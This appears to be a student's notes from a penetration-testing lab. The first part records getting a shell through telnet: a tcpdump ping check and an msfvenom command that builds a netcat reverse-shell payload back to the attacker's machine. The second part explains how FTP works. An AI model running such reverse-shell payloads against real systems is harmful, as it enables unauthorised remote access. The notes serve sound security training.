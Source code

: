 tried using .RUN to execute commands, no apparent success

started a tcpdump listener on tun0 (vpn), for local connection listen on eth0

`sudo tcpdump ip proto \\icmp -i tun0`

used the telnet connection to ping attack machine (.RUN ping <attackIP> -c 1)

tcpdump registered the ping

generated a reverse shell payload with msfvenom (-p payload, R is raw output)

`msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R`

started netcat listener on port 444 on attack machine

ran generated payload in telnet console 

shell access on machine

# FTP

## What is FTP?

File Transfer Protocol (FTP) is, as the name suggests , a protocol used to allow remote transfer of files over a network. It uses a client-server model to do this, and- as we'll come on to later- relays commands and data in a very efficient way.

How does FTP work?
A typical FTP session operates using two channels:

    a command (sometimes called the control) channel
    a data channel. 

As their names imply, the command channel is used for transmitting commands as well as replies to those commands, while the data channel is used for transferring data.

FTP operates using a client-server protocol. The client initiates a connection with the server, the server validates whatever login credentials are provided and then opens the session.

While the session is open, the client may execute FTP commands on the server.

Active vs Passive

The FTP server may support either Active or Passive connections, or both. 

    In an Active FTP connection, the client opens a port and listens. The server is required to actively connect to it. 
    In a Passive FTP connection, the server opens a port and listens (passively) and the client connects to it.  

This separation of command information and data into separate channels is a way of being able to send commands to the server without having to wait for the current data transfer to finish. If both channels were interlinked, you could only enter commands in between data transfers, which wouldn't be efficient for either large file transfers, or slow internet connections.

More Details:

You can find more details on the technical function, and implementation of, FTP on the Internet Engineering Task Force website: https://www.ietf.org/rfc/rfc959.txt. The IETF is one of a number of standards agencies, who define and regulate internet standards.
